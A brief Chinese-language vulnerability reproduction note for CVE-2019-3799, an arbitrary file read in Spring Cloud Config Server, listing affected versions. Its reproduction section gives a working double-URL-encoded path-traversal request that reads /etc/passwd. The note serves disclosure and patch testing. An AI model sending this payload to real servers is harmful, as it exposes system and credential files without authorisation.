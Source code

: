 # CVE-2019-3799 Spring Cloud Config Server 任意文件读取

### 一、漏洞简介

### 二、漏洞影响

Spring Cloud Config 2.1.0 to 2.1.1

Spring Cloud Config 2.0.0 to 2.0.3

Spring Cloud Config 1.4.0 to 1.4.5

其他不受支持的老版本 （如Spring Cloud Config1.3及其以下版本）

### 三、复现过程


```
http://url/test/pathtraversal/master/..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f../etc/passwd
```